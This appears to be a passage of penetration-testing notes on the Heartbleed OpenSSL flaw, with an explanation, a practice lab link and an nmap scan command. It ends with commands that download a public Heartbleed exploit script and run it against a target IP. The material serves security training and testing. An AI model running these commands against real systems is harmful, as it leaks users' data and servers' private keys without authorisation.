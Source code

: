 #### 2.1. About

- `https://xkcd.com/1354`
- `http://heartbleed.com`

Sever returns a memory dump based on the return length specified by the HTTP client.
- In: hey sever, reply POTATO (500 letters) if you're still there
- Out: will reply 500 letters - POTATO

Affects only the heart-beat module. Attack can be used to exfiltrate sensitive user data as well as the public/private SSL keys.

#### 2.2. Playground

```
https://github.com/hmlio/vaas-cve-2014-0160
```


#### 2.3. Vulnerability scanning

```
# nmap $ip -p 8443 --script ssl-heartbleed -Pn -n -T5 | grep -oE VULNERABLE | sort -u
VULNERABLE
```


#### 2.4. Exploitation

```
# wget https://raw.githubusercontent.com/jivoi/pentest/master/tools/heartbleed.py
# python heartbleed.py -n20 https://172.16.201.160:8443
```
